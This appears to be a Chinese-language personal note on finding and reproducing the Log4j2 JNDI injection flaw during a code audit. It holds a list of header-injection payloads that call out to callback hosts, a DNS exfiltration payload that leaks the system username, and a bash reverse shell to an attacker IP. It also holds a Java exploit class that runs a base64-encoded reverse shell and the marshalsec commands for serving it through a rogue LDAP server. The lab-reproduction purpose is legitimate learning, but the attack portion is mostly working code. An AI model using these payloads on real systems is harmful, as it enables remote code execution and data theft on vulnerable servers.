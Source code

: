# 排查
1.查看是否存在使用依赖
2.查找`log4j2.xml`、`log4j2.properties`或`log4j2.yaml`文件，确认 Log4j 的使用
3.关注
```
打印：
	使用占位符记录外部数据 logger.info("用户操作: {}", externalData);
	字符串拼接（部分情况仍可能触发） logger.info("用户操作: " + externalData); 
	记录硬编码或内部可控数据 logger.info("系统启动完成");
导包：
	import org.apache.logging.log4j.Logger;
	import org.apache.logging.log4j.LogManager;
	Logger logger = LogManager.getLogger(MyClass.class)

```
playload
```
X-Client-IP: ${jndi:ldap://1644763261510dpicz.zdl7qs.ceye.io/VXBQo}
X-Remote-IP: ${jndi:ldap://1644763261510jnabe.zdl7qs.ceye.io/vl}
X-Remote-Addr: ${jndi:ldap://1644763261510xplnj.zdl7qs.ceye.io/hTE}
X-Forwarded-For: ${jndi:ldap://1644763261510lbnhl.zdl7qs.ceye.io/hvgsw}
X-Originating-IP: ${jndi:ldap://1644763261510pbhdy.zdl7qs.ceye.io/LxrC}
True-Client-IP: ${jndi:rmi://1644763261510jjchm.zdl7qs.ceye.io/FrfXm}
Originating-IP: ${jndi:rmi://1644763261510jctho.zdl7qs.ceye.io/vbP}
X-Real-IP: ${jndi:rmi://1644763261510fyvxt.zdl7qs.ceye.io/fWmjt}
Client-IP: ${jndi:rmi://1644763261510nfaoa.zdl7qs.ceye.io/mS}
X-Api-Version: ${jndi:rmi://1644763261510daeem.zdl7qs.ceye.io/IdJ}
Sec-Ch-Ua: ${jndi:dns://1644763261510wjiit.zdl7qs.ceye.io/IX}
Sec-Ch-Ua-Platform: ${jndi:dns://1644763261510dacbb.zdl7qs.ceye.io/ftA}
Sec-Fetch-Site: ${jndi:dns://1644763261510rypwe.zdl7qs.ceye.io/asWuD}
Sec-Fetch-Mode: ${jndi:dns://1644763261510osrig.zdl7qs.ceye.io/zc}
Sec-Fetch-User: ${jndi:dns://1644763261510uvfsl.zdl7qs.ceye.io/oNpOs}
Sec-Fetch-Dest: ${jndi:dns://1644763261510ptqen.zdl7qs.ceye.io/fGwFl}
```
[log4j漏洞复现及详细分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/news/368061.html)


# 审计代码查看存在使用log4j的依赖
![[Pasted image 20250605142252.png]]
查看配置文件，以及采用log4j进行记录日志的地方
![[Pasted image 20250605143642.png]]
![[Pasted image 20250605143656.png]]
有很多，这里采用图片上传这里来进行操作
![[Pasted image 20250605143732.png]]
![[Pasted image 20250605143751.png]]
尝试dns外带，由于是windows环境所以需要windows的命令
${env:USERNAME}
```
${jndi:dns://${sys:user.name}.d42f3r.dnslog.cn}
```
![[Pasted image 20250606222917.png]]

可以判断是存在该漏洞的，接下来就是利用
在kali上我去开一个jndi服务，在服务端编写一个exp的类用于实现打开计算机服务
当我本地环境开启后，进行抓包并构造playload让其访问jndi的服务器kali，他就会自动去执行该jndi下绑定的服务
【其实就跟jndi的ldap或rmi一样。攻击者伪造的服务端上写一个恶意类并绑定服务。存在漏洞的站点执行jndi的playload相当于jndiclient，直接访问了jndiserver，就导致执行了恶意类】

具体实现像按照自己本地编写的rmi服务来实现
可参考
[Fastjson反序列化漏洞原理与漏洞复现（基于vulhub，保姆级的详细教程）_fastjson漏洞原理-CSDN博客](https://blog.csdn.net/Bossfrank/article/details/130100893)
[log4j2远程代码执行漏洞原理与漏洞复现（基于vulhub，保姆级的详细教程）_log4j漏洞复现-CSDN博客](https://blog.csdn.net/Bossfrank/article/details/130148819)

# fantanshell-jndiInjection



# 复现反弹shell---自定义
使用rmi或者ldap服务部署在攻击者机器上
rmi可以自己编写
ldap采用marshalsec进行部署，下载该文件，使用maven在该文件下执行
mvn clean package -DskipTests
编译成功之后，在target下使用编译好的jar包开启一个恶意的ldap服务

1.编写exp,反弹到攻击者机器192.168.31.149的777端口
```
bash -i >& /dev/tcp/192.168.31.149/7777 0>&1
```
![[Pasted image 20250605181713.png]]
也可进行编码，构造好的java文件
```java
import java.lang.Runtime;  
import java.lang.Process;  
public class Exp {  
    public Exp(){  
        try{  
            Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMxLjE0OS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}");  
        }catch(Exception e){  
            e.printStackTrace();  
        }  
    }  
    public static void main(String[] argv){  
        Exp e = new Exp();  
    }  
}
```

2.将构造好的exp.java文件进行编译class，放到指定目录，该目录下开启python开启临时服务器
python -m http.server 4444
![[Pasted image 20250605182126.png]]

3.使用脚本搭建ldap服务，在maven执行完成之后，在target下生层的文件，执行
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer  "http://192.168.200.131:4444/#Exploit" 1389
```
1389为自定义ldap端口号，http为我们生成的临时服务器地址
![[Pasted image 20250605182412.png]]
4.另起终端监听777端口用于监听反弹shell
![[Pasted image 20250605182429.png]]
5.在注入点进行插入playload
${jndi:ldap://192.168.200.131:1389/Exploit}


prooduct接口，dns探测
![[Pasted image 20250607042512.png]]
执行calc

反弹shell
